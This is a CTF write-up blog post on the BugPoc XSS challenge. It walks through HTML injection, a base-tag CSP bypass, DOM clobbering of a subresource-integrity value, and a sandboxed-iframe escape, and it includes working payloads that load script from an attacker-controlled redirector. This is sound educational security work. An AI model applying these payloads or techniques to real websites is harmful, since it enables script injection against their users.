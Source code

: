 ```yaml
---
layout: post
title: "BugPoc XSS Challenge"
tags: [Xss]
comments: true
---
```


BugPoc XSS Challenge
> I am not the one who solves this challenge quickly. After I got up, I saw that someone had submitted it 9 hours ago. But I learned something and some new thinking from this challenge, so I recorded it.Try to get the reward of the best blog.

### Challenge Details
[![](https://pbs.twimg.com/card_img/1324001987948650505/CVEcs2Rg?format=jpg&name=medium)](https://pbs.twimg.com/card_img/1324001987948650505/CVEcs2Rg?format=jpg&name=medium)
Wacky Text Generator (https://wacky.buggywebsite.com)<br>
Rules: Must alert(origin), must bypass CSP, must work in Chrome, must provide a BugPoC demo

### Solving
#### Step 1 : Found html injection
I first opened the challenge page and checked the source code<br>
[![图片一](https://github.com/Jinone/123/raw/master/_posts/image2/E046A1F2-CC9D-4590-AFAB-429BC8F7C7EC.png "图片一")](https://github.com/Jinone/123/raw/master/_posts/image2/E046A1F2-CC9D-4590-AFAB-429BC8F7C7EC.png "图片一")
Found a page https://wacky.buggywebsite.com/frame.html?param=Hello,%20World!<br>
Manual test parameter<br>
After finding the closed `<title>` tag. Can inject html code
[![](https://github.com/Jinone/123/raw/master/_posts/image2/900507D8-857F-44B4-93A2-52ECE7904D8D.png)](https://github.com/Jinone/123/raw/master/_posts/image2/900507D8-857F-44B4-93A2-52ECE7904D8D.png)
In fact, when I first viewed this page, I first checked the source code of the page, read the js, and then discovered this html injection

#### Step 2 :Bypass CSP
Although we have found html injection, it cannot perform xss
[![](https://github.com/Jinone/123/raw/master/_posts/image2/0F33FFF2-1161-476B-A183-46DD1365582C.png)](https://github.com/Jinone/123/raw/master/_posts/image2/0F33FFF2-1161-476B-A183-46DD1365582C.png)
Because
[![](https://github.com/Jinone/123/raw/master/_posts/image2/226C1B5B-8A9C-4E17-98DD-6F9C6822AA73.png)](https://github.com/Jinone/123/raw/master/_posts/image2/226C1B5B-8A9C-4E17-98DD-6F9C6822AA73.png)
```
content-security-policy: script-src 'nonce-kplddkwaepak' 'strict-dynamic'; frame-src 'self'; object-src 'none';
```
You can use [this](https://csp-evaluator.withgoogle.com/http:// "this") to check csp security
[![](https://github.com/Jinone/123/raw/master/_posts/image2/1D76462E-B4C3-4A56-BFCE-6B37377F507E.png)](https://github.com/Jinone/123/raw/master/_posts/image2/1D76462E-B4C3-4A56-BFCE-6B37377F507E.png)
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain<br>
Just use the previously found html injection to inject `<base href="">`<br>
Since this is a ctf challenge, this may be a breakthrough. (If bugbounty, this may not have any effect).I did find relative (script) injection in the js at the bottom
[![](https://github.com/Jinone/123/raw/master/_posts/image2/5DA4ADF1-7835-4E59-AB24-199FEB759377.png)](https://github.com/Jinone/123/raw/master/_posts/image2/5DA4ADF1-7835-4E59-AB24-199FEB759377.png)
But this has to be judged by `if (window.name =='iframe')`<br>
This site `x-frame-options: SAMEORIGIN` cannot use iframe<br>
But  we can set window.name through window.open()<br>
Such as
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=xss","iframe");
</script>
```
##### First try
```
if (window.name == 'iframe') {
			
			// securely load the frame analytics code
			if (fileIntegrity.value) {
				
				// create a sandboxed iframe
				analyticsFrame = document.createElement('iframe');
				analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
				analyticsFrame.setAttribute('class', 'invisible');
				document.body.appendChild(analyticsFrame);

				// securely add the analytics code into iframe
				script = document.createElement('script');
				script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
				script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
				script.setAttribute('crossorigin', 'anonymous');
				analyticsFrame.contentDocument.body.appendChild(script);
				
			}

		} else {
			document.body.innerHTML = `
			<h1>Error</h1>
			<h2>This page can only be viewed from an iframe.</h2>
			<video width="400" controls>
				<source src="movie.mp4" type="video/mp4">
			</video>`
		}
```
After reading this js, I initially thought it would create an iframe and write a `<script src="files/analytics/js/frame-analytics.js">` in it
[![](https://github.com/Jinone/123/raw/master/_posts/image2/FE25CC6A-0801-45CF-881C-872368008AF1.png)](https://github.com/Jinone/123/raw/master/_posts/image2/FE25CC6A-0801-45CF-881C-872368008AF1.png)
I only need to inject the `<base>` tag, control the base-URL to my own domain , and upload a file `/files/analytics/js/frame-analytics.js`, load my own js.<br>
Use [bugpoc mock](https://bugpoc.com/testers/other/mock "bugpoc mock") to construct POC
[![](https://github.com/Jinone/123/raw/master/_posts/image2/6EB8183A-F2A5-4723-835D-F42A3BF94C5B.png)](https://github.com/Jinone/123/raw/master/_posts/image2/6EB8183A-F2A5-4723-835D-F42A3BF94C5B.png)
Then use  [Flexible Redirector](https://bugpoc.com/testers/other/redir "Flexible Redirector") for 302 redirection
[![](https://github.com/Jinone/123/raw/master/_posts/image2/04EBC976-4EDF-4AC8-BD7D-5BE099123108.png)](https://github.com/Jinone/123/raw/master/_posts/image2/04EBC976-4EDF-4AC8-BD7D-5BE099123108.png)
get https://le8497ljneda.redir.bugpoc.ninja/files/analytics/js/frame-analytics.js content `alert(origin);`<br>
Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><base href='https://le8497ljneda.redir.bugpoc.ninja/'>","iframe");
</script>
```
###### Say no
[![](https://github.com/Jinone/123/raw/master/_posts/image2/EE6AAD95-E078-48FA-BE73-55F3E1C3C692.png)](https://github.com/Jinone/123/raw/master/_posts/image2/EE6AAD95-E078-48FA-BE73-55F3E1C3C692.png)
##### Second
Read this [Subresource Integrity](https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity "Subresource Integrity")<br>
This helps me understand what is happening<br>
After that I fell into a dead end,I have been thinking about how to bypass SRI,It took a while.(It seems that need to find a browser vulnerability to solve the problem, so the idea at the time was wrong)<br>
After changing mind, only try to modify the value of `integrity`
```
	<script nonce="lxggbsrloata">
	
		window.fileIntegrity = window.fileIntegrity || {
			'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
			'algorithm' : 'sha256',
			'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
			'creationtime' : 1602687229
		}
	
		// verify we are in an iframe
		if (window.name == 'iframe') {
			
			// securely load the frame analytics code
			if (fileIntegrity.value) {
				
				// create a sandboxed iframe
				analyticsFrame = document.createElement('iframe');
				analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
				analyticsFrame.setAttribute('class', 'invisible');
				document.body.appendChild(analyticsFrame);

				// securely add the analytics code into iframe
				script = document.createElement('script');
				script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
				script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
				script.setAttribute('crossorigin', 'anonymous');
				analyticsFrame.contentDocument.body.appendChild(script);
				
			}

		} else {
			document.body.innerHTML = `
			<h1>Error</h1>
			<h2>This page can only be viewed from an iframe.</h2>
			<video width="400" controls>
				<source src="movie.mp4" type="video/mp4">
			</video>`
		}
		
	</script>
```
To modify the value of `integrity` first,  must modify `fileIntegrity.value`.<br>

`window.fileIntegrity = window.fileIntegrity || {...}`<br>
Seeing this, I thought that as long as I created a `window.fileIntegrity` using the previously discovered html injection,  could change the `fileIntegrity.value`<br>
Because js is a "accommodating" language.For example,  `name` of `iframe`, `id` of `input`. In the unoccupied case, it will change from assignment to dom selector, so it can be used to hijack regular parameters (value href name id src ref..)<br>
`<input id='fileIntegrity'  value='w7eu4SGHdqamrZE5Wi%2bayP8t7tuSBLDdoq4DQUxSpL8='>`   modify `fileIntegrity.value`<br>
Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><input id='fileIntegrity' value='aErQrfRCGgdInIpMEDCWj2%2bHQUab648smjdgPAUdBKU='><base href='https://le8497ljneda.redir.bugpoc.ninja/'>","iframe");
</script>
```
###### Say no again
[![](https://github.com/Jinone/123/raw/master/_posts/image2/E3DE688B-930C-46E4-8C59-58781D64DCE5.png)](https://github.com/Jinone/123/raw/master/_posts/image2/E3DE688B-930C-46E4-8C59-58781D64DCE5.png)
`<iframe sandbox="allow-scripts allow-same-origin" class="invisible"></iframe>`<br>
But the security of using `allow-scripts` `allow-same-origin` at the same time is very low<br>
Because can manipulate the parent window.Just use the alert() of the parent window<br>
Modify the content of `/files/analytics/js/frame-analytics.js` to `window.parent.alert(origin);`<br>

###### Final Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><input id='fileIntegrity' value='w7eu4SGHdqamrZE5Wi%2bayP8t7tuSBLDdoq4DQUxSpL8='><base href='https://960ejm5yq2xy.redir.bugpoc.ninja/'>","iframe");
</script>
```
[![](https://github.com/Jinone/123/raw/master/_posts/image2/E380C034-C25C-4BE0-A826-BAF8B65CCD40.png)](https://github.com/Jinone/123/raw/master/_posts/image2/E380C034-C25C-4BE0-A826-BAF8B65CCD40.png)

### Conclusion
Sorry for my poor English<br>
In order for everyone to understand, the article is written in detail<br>
Although this challenge is simple, it does show that sometimes changing the way of thinking can make the problem very easy<br>
If you have any questions, welcome dm me([jinonehk](https://twitter.com/jinonehk "jinonehk"))
